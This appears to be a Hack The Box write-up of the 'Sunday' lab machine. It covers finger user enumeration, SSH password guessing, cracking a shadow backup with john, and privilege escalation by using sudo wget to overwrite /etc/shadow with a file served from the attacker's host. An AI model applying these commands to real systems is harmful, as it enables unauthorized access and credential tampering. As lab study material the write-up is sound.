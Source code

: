 ```yaml
---
layout: post
title: "HTB-Sunday"
categories: HTB-Walkthrough
---
```


![sunday](/assets/img/sunday/sunday1.png)


`nmap -sV -Pn -v 10.10.10.76 |tee -a sun.txt`

```

PORT    STATE SERVICE VERSION
79/tcp  open  finger  Sun Solaris fingerd
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

```

Use [finger](https://www.tutorialspoint.com/unix_commands/finger.htm) to see who's logged on.

```
root@kali:~/HTB/vip/sunday# finger @10.10.10.76
No one logged on
```

[PentestMonkey](http://pentestmonkey.net/tools/finger-user-enum/finger-user-enum-1.0.tar.gz) has a good perl script
to enumerate users.

```
root@kali:~/HTB/vip/sunday/finger-user-enum-1.0# perl finger-user-enum.pl -t 10.1
0.10.76 -U /root/wordlists/rockyou.txt 
```

2 usernames are found

`sammy`
`sunny`



Manually testing the password, sometimes using the name of the box can come up trumps!

```
ssh sunny@10.10.10.76 -p 22022


Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

```


Try again:


```
root@kali:~/HTB/prep/sunday# ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p22022
```

The password `sunday` works!





```
sunny@sunday:~$ uname -a
SunOS sunday 5.11 snv_111b i86pc i386 i86pc Solaris
```

One of the first commands to try on machines that might have `sudo` running is 
`sudo -l`, to list the commands the user can run as root.

```
sunny@sunday:~$ sudo -l                                                                                            
User sunny may run the following commands on this host:                                                            
    (root) NOPASSWD: /root/troll                                                                                   
sunny@sunday:~$        
```

Interesting...

```
sunny@sunday:~$ cat /root/troll                                                                                    
cat: /root/troll: Permission denied                                                                                
sunny@sunday:~$ ls -la /root                                                                                       
ls: cannot open directory /root: Permission denied   
```

So we can execute a file that we can't read!



Searching `/` folder, we find an interesting backup file.

![shadow-backup](/assets/img/sunday/sunday-found-shadowbackup.png)


Copy the hashes to hash.txt and let john do the legwork!


```

john hash.txt --wordlist=/root/wordlists/rockyou.txt
 
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status

sunday           (sunny)
cooldude!        (sammy)

2g 0:00:07:54 100% 0.004215g/s 429.1p/s 434.1c/s 434.1C/s coolster..colima1
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

we can ssh in again as `sammy` with the password `cooldude!`

```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p22022
```

We can grab the user flag from Sammy's Desktop:

```
sammy@sunday:~/Desktop$ cat user.txt
a3xxxxxxxxxxxxxxxxxxxxxxxxxxxx98
sammy@sunday:~/Desktop$ 
```

<h3>Privilege Escalation</h3>


Running `sudo -l` again as sammy, to see what this user can do as root:

```
sammy@sunday:~/Desktop$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

the `-O` flag in wget commands will write out to a desired location, we can do this as root with `sammy`

Copy the shadow.backup contents to the Kali machine, save the file as `shadow`,

add an entry for root at the bottom, copying the password hash for sunny (sunday) to the entry.

![shadowroot](/assets/img/sunday/sunday-shadowroot.png)

serve the file with python web server
```
python3 -m http.server 80
```



Use the `sudo wget` command to replace the existing /etc/shadow file with the modified one, and root's password will now be 'sunday',
and we can just su root to get the root-shell.


```
sudo wget -O /etc/shadow http://10.10.14.17/shadow
```

Now get root.

```
sammy@sunday:/etc$ su root
Password: 

sammy@sunday:/etc# id
uid=0(root) gid=0(root)
sammy@sunday:/etc# clear
sammy@sunday:/etc# cd /root
sammy@sunday:/root# cat root.txt
fbxxxxxxxxxxxxxxxxxxxxxxxxxxxxb8
```

:)
